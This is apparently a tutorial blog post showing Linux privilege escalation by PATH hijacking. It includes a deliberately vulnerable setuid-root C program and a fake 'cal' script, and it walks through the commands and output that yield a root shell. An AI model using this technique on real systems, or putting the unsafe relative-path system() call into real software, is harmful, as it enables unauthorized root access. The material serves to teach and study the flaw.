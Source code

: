 ```yaml
---
layout: post
title: Privilege Escalation - PATH Variable
date: 2020-03-08 18:00:00
categories: posts
comments: false
en: true
---
```


# Introduction

### Hi there once again, the other day i found by sheer curiosity this type of privilege escalation, which seems rather interesting to me, that's why i will be explaining it today.

# The Bug

##### As the reader may already know, in Linux the $PATH is an environmental variable which allows the system to search for an executable on specific folders. For example, if i want to execute "ls", i don't have to resort to the full path, being /bin/ls, as it is already within the $PATH. However, there are binaries which sometimes do not use the full path and make use of such variable, that if maliciously manipulated, the file which is intended to run may be "spoofed", I.E: FTP server which makes a call to telnet without the full path, if the variable was changed to only "/tmp", telnet would only be searched for in such folder, ergo, if a file is placed there with the same name, it would get executed.

# The Exploitation

##### In order to demonstrate this phenomenon, a vulnerable application will be used.

### Source code:

```term
#include <stdio.h>

int main(){
    setuid(0);
    setgid(0);
    system("cal && time && date");
    return 0;
}
```

### This application should call calendar, time and date without the absolute path.

##### The application is compiled:

```term
root@whitecr0wz:~/vuln# gcc vuln.c -o vuln 
```

##### It is copied to /usr/bin/vuln, chmoded with user bits and finally checked:

```term
root@whitecr0wz:~/vuln# cp vuln /usr/bin/vuln
root@whitecr0wz:~/vuln# chmod u+s /usr/bin/vuln
root@whitecr0wz:~/vuln# ls -la /usr/bin/vuln 
-rwsr-xr-x 1 root root 16712 Aug 10 19:58 /usr/bin/vuln
root@whitecr0wz:~/vuln# 
```

##### After this is done, just su into your user.

##### If the application is run, it displays everything as intended:

```term
whitecr0wz@whitecr0wz:~/vuln$ /usr/bin/vuln
    August 2020       
Su Mo Tu We Th Fr Sa  
                   1  
 2  3  4  5  6  7  8  
 9 10 11 12 13 14 15  
16 17 18 19 20 21 22  
23 24 25 26 27 28 29  
30 31                 
Usage: time [-apvV] [-f format] [-o file] [--append] [--verbose]
       [--portability] [--format=format] [--output=file] [--version]
       [--quiet] [--help] command [arg...]
whitecr0wz@whitecr0wz:~/vuln$ 
```

##### Moreover, if strings is used and grepped for "cal", the system call may be found:

```term
whitecr0wz@whitecr0wz:~/vuln$ strings /usr/bin/vuln | grep cal 
cal && time && date
whitecr0wz@whitecr0wz:~/vuln$
```

##### The command that will be spoofed is cal, due to the fact that it is the first to be called:

```term
whitecr0wz@whitecr0wz:~/vuln$ cat cal 
#!/bin/bash
/bin/bash
whitecr0wz@whitecr0wz:~/vuln$ 
```

##### The file is chmodded with 777 bits:

```term
whitecr0wz@whitecr0wz:~/vuln$ chmod 777 cal 
```

##### Now, where the fun begins, the $PATH variable is exported into the current working directory, being "/home/whitecr0wz/vuln" the first folder where the system will check for any executable without a full path, therefore, "/home/whitecr0wz/vuln/vuln" will be encountered prior to /usr/bin/vuln:

```term
whitecr0wz@whitecr0wz:~/vuln$ pwd 
/home/whitecr0wz/vuln
whitecr0wz@whitecr0wz:~/vuln$ export PATH=/home/whitecr0wz/vuln:$PATH 
whitecr0wz@whitecr0wz:~/vuln$ echo $PATH
/home/whitecr0wz/vuln:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
whitecr0wz@whitecr0wz:~/vuln$ 
```

##### Last but not least, vuln is executed, spoofing /usr/bin/cal for /home/whitecr0wz/vuln/cal, which leads to a root shell:

```term
whitecr0wz@whitecr0wz:~/vuln$ /usr/bin/vuln 
root@whitecr0wz:~/vuln# 
```
